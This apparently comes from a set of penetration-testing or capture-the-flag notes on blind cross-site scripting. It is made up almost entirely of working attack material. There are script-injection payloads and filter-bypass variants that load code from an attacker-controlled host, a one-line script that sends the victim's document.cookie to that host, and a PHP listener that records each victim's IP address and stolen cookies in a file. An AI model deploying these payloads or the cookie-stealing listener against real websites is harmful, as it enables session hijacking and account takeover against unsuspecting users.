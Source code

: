 Send request to server 
```html
<script src="http://OUR_IP/script.js"></script>
```
Send request with parameter name
```html
<script src="http://OUR_IP/username"></script>
```

Example payloads
```html
<script src=http://OUR_IP></script>

'><script src=http://OUR_IP></script>

"><script src=http://OUR_IP></script>

javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')

<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>

<script>$.getScript("http://OUR_IP")</script>
```


Script.js(Makes request to our php endpoint)
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```


PHP Listener Source
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```


"><script src="http://10.10.14.41/fullname"></script>
"><script src="http://10.10.14.41/username"></script>
"><script src="http://10.10.14.41/password"></script>
"><script src="http://10.10.14.41/email"></script>
"><script src="http://10.10.14.41/profilePIC"></script>
"><script src="http://10.10.14.41/website"></script>
"><script src="http://10.10.14.41:80/script.js"></script>


```
new Image().src='http://10.10.14.41:80/index.php?c='+document.cookie
```
